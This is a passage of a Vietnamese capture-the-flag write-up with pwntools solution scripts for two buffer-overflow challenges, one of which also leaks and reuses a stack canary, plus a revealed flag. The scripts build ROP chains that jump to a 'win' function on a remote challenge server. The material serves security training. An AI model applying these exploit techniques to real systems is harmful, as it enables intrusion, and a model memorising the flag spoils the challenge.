 ![alt text](/images/bktrain2024/image-4.png)

**Lời giải**
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./bof_2")
# p = process(elf.path) 
p = remote("45.77.247.61", 6011)

pop_rdi = 0x00000000004011e5
pop_rsi = 0x00000000004011ee
ret = 0x000000000040101a

payload = b'x'*0x48 + p64(pop_rdi) + p64(0xDEADBEEFDEADBEEF) + p64(pop_rsi) + p64(0xDEADBEEFDEADBEEF) + p64(ret) + p64(elf.symbols["win"])
p.sendlineafter(b'number: ', payload)

p.interactive()
```

**Đáp án: BKSEC{2-->\\xupgrade\\xBuffer\\xOv3rfl0w\\x1s\\xn0t\\xchiLL\\xhixxxxxxxxxxxxxx}**

### Bài pwn3

Về cơ bản, ý tưởng giải bài này y hệt bài phía trên. Chỉ khác ở bài này có thêm cờ canary được bật. 

**Lời giải**
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./bof_3")
# p = process("./bof_3")
p = remote("45.77.247.61", 6021)

p.recvuntil(b'is: ')
canary = int(p.recvline().strip().decode(), 16)
print("canary" + hex(canary))

pop_rdi = 0x0000000000401205
pop_rsi = 0x000000000040120e
ret = 0x0000000000401398

payload = b'x'*0x58 + p64(canary) + p64(0) + p64(pop_rdi) + p64(0xDEADBEEFDEADBEEF) + p64(pop_rsi) + p64(0xDEADBEEFDEADBEEF) + p64(ret) + p64(elf.symbols["win"])
p.sendlineafter(b'number: ', payload)

```